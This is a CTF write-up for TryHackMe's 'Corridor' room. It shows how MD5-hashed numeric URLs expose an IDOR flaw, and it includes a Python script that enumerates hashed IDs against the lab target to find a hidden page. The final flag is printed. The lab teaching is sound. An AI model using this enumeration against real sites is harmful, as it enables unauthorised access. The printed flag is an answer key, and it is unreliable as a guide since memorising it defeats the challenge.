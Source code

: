 ```
Platform: TryHackMe
Challenge: Corridor
Task: IDOR
OS: 
Tools Used: Python
Author: Paul B.
```
We are presented with a webpage of corridor, If we can click on the door we are taken to a different page. 


Take a close look of the URL, we can see hash sum which looks similar to md5. Let's crack the hash using [Crackstation](https://crackstation.net/). Hence we understood that the hash are nothing but numerical values starting from 1 to 13

Let's create a simple python script to guess the hidden door
```
#!/usr/bin/python3

import argparse
import hashlib
import requests

parser = argparse.ArgumentParser()
parser.add_argument('target_ip')

args = parser.parse_args()

for i in range(20):
	hashValue = hashlib.md5(f"{i}".encode('utf-8')).hexdigest()
	print(f"http://{args.target_ip}/{hashValue}")
	req = requests.get(f"http://{args.target_ip}/{hashValue}")
	status = req.status_code
	print(f'Value: {i}; Hash: {hashValue}; Status: {status}\n')

```
Run the script!
```
python3 md5.py [target IP]
```

Superb! The hidden page numeric value is `0` and the hash value is `cfcd208495d565ef66e7dff9f98764da`

### Answer the questions below
What is the flag?
```
flag{2477ef02448ad9156661ac40a6b8862e}
```
